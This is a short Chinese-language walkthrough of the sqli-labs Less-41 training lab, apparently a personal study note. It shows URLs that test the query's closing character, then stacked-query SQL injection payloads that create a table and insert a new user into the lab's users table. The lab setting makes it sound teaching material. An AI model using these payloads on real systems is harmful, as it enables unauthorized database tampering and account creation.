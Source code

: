 ```yaml
---
title: Less - 41
date: 2023-03-21T11:20:55Z
lastmod: 2023-03-21T11:37:03Z
---
```


# Less - 41

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-41/?id=1' #无错误回显
http://192.168.23.128/sqli-labs/Less-41/?id=1--+ #回显正常
http://192.168.23.128/sqli-labs/Less-41/?id=1'--+ #回显错误
http://192.168.23.128/sqli-labs/Less-41/?id=1"--+ #回显错误
```

​![image](assets/image-20230321112631-jneanui.png)​

​![image](assets/image-20230321112751-hgj62m9.png)​

---

## 2、创建一张表

---

```http
http://192.168.23.128/sqli-labs/Less-41/?id=1;create table test like users;--+
```

​![image](assets/image-20230321113145-b9ujrsy.png)​

​![image](assets/image-20230321113447-m98m6ou.png)​

---

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-41/?id=1;insert into users values(18,'cmx','cmx');--+
```

​![image](assets/image-20230321113642-it31dwg.png)​

​![image](assets/image-20230321113701-7sm3o7l.png)​

‍
